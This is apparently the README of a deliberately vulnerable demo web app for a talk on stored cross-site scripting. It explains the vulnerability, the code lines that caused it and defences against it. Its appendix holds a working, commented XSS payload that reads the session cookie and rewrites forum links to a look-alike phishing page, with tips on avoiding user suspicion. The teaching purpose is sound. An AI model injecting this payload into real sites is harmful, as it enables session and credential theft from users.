 # xss-demo-aug-2019
A (deliberately!) broken site to demonstrate the power of XSS exploitation.

# Stored XSS vulnerabilities
## Presentation structure
1. Definition of stored and reflected XSS attacks
1. Demo of XSS in a web app
1. Explanation of how XSS happened in the demo
1. Steps developers can take to protect against XSS
1. Wider implications and dangers of XSS

## Definition of XSS
### Reflected
Reflected XSS occurs when an attacker crafts a URL containing a parameter or path that will be displayed in a target browser. The attacker usually tricks a target user into clicking on this malicious URL, and can then gain access to the user's browser through a script within the URL. An example of this could be the URL:

`https://www.example.com?search=%3Cscript%3Ealert%28%22boo%21%22%29%3B%3C%2Fscript%3Ecat%20pictures` which, unencoded, contains: `https://www.example.com?search=<script>alert("boo!");</script>cat%20pictures`
### Stored
Stored XSS happens when an attacker can directly upload HTML to a site through a user input field whose contents will be displayed elsewhere on the site, such as a username field. If the input is not escaped by the server, there is a risk it will be rendered as HTML, which means outside scripts can be injected into the page.

_This demo focuses solely on stored XSS attacks_

## Demonstration
The demo app has three fields (of which one has been left vulnerable) where users can input information which will be displayed elsewhere on the site:
- Username
- Post titles
- Post bodies

## How XSS happened in the demo app
Generally speaking, the cause of stored XSS is failure to escape user input. In the case of this app, two lines of code were responsible for the vulnerability:
1. Neglecting to user the `xss` node module to sanitise the input: [/routes/index.js#L59](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/routes/index.js#L59)
1. Using the wrong number of braces in the handlebars template, causing the template to render the variable without escaping the value: [/views/forum_dashboard.hbs#L18](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/views/forum_dashboard.hbs#L18)

## How developers can protect against XSS
As the above section would suggest, the way to avoid XSS is to ensure all user input is escaped before it reaches the browser so there is no possibility it will be rendered as HTML. However in practice this can be easier said than done, particularly in a complex web app.

Developers can introduce coding standards such as prefixing their variable names with whether they are safe or unsafe, (example detailed in this article ["Making wrong code look wrong"](https://www.joelonsoftware.com/2005/05/11/making-wrong-code-look-wrong/)) to reduce the likelihood that unescaped text will make it to the browser. Good code review practices can help maintain these coding standards, too.

There is also the standard solution of not trying to roll your own security: if you can rely on trusted frameworks which you keep up to date, you can mitigate some amount of risk. For example: the templating engine I used to make this site is hard to slip XSS by, as the default behaviour is to always escape values it is asked to display.

## Wider implications and dangers of XSS
When a potential XSS vulnerability is found during a pentest, we tend to add a simple script such as `alert(1);`. The truth is, though, that some incredibly malicious code can be contained within the script tags.

Any information viewable by the browser, such as session and CSRF protection tokens, are accessible any script running on the page. This means if an attacker can inject their own script into the page, they will be able to steal sessions and perform actions masquerading as legitimate users. All user accountability goes out of the window - how can you know if it really is an admin going rogue and deleting half the site, or if they went to an infected page and had their session stolen?

I would argue that even data which is supposed to be inaccessible to the browser, such as passwords, is retrievable with the right script. A version of the annotated script below changes the hyperlinks on a page to send people to the site of an attacker's choice... for example, a phishing site made to look like an 'oops, please log back in page' from the original site.

It's bad enough when you consider that a phishing attack could hand user credentials over to malicious actors, but when taken into account how many people re-use passwords between accounts, it's horrifying how much damage could be done with this relatively simple script.

## Appendix: Commented phishing script from demo

```html
<script type = "text/javascript">
$(document).ready(function () {
  function getCookie(n) {
    // returns the value of a named cookie
    var name = n + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(";");
    for (var i = 0; i < ca.length; i++) {
      var c = ca[i];
      while (c.charAt(0) == " ") {
        c = c.substring(1);
      }
      if (c.indexOf(name) == 0) {
        return c.substring(name.length, c.length);
      }
    }
    return "";
  }

  function setCookie() {
    // Make a new cookie called 'h' (for 'harvested') which pulls the first,
    // middle and last chars from the session ID
    // This will be used to check if the session ID has been updated and needs
    // to be stored.
    // using 3 check chars is less suspicious than storing the entire session ID
    // if the user happens to look at their cookies like a NERD
    var sid = getCookie("connect.sid");
    document.cookie = "h="+ sid.charAt(0) + sid.charAt(sid.length - 1) +
                      sid.charAt((sid.length -1)/2) + ";expires=session;path=/";
  }

  function isNewSession() {
    // Check the value of 'h' against the current session ID
    var sid = getCookie("connect.sid");
    var h = getCookie("h");
    if (h === sid.charAt(0) + sid.charAt(sid.length - 1) +
            sid.charAt((sid.length -1)/2)) {
      return false;
    } else {
      return true;
    }
  }

  var current_page_path = window.location.pathname;
  // If the session ID is one we've seen before, don't replace the hyperlinks.
  // That way the redirect to the 'login' page looks like a one-off error to
  // the user, and we don't collect the same session ID more than once
  if (!current_page_path.includes("/post") && isNewSession()) {
    // Only run the script on the forum home page, leave individual post pages
    // alone
    $("td > a").each(function(i) {
      console.log(document.cookie);
      var original_path = $(this).attr("href");
      var hostname = window.location.hostname;
      // Replace all links in the table of posts with links to the phishing site
      // N.B. the forum site runs on port 1887, the phishing site is port 1337
      // We're hoping that if the ports look similar enough the user won't notice
      // they're on a different site
      // Pass along the ID of the post the user was trying to see (so we can
      // direct them back to it after 'logging them back in')
      var new_href = "http://" + hostname + ":1337" + original_path;
      $(this).prop("href", new_href);
    });
    setCookie();
  }
});
// Don't forget to add a normal-looking title so people don't get suspicious!
</script>Important announcement```
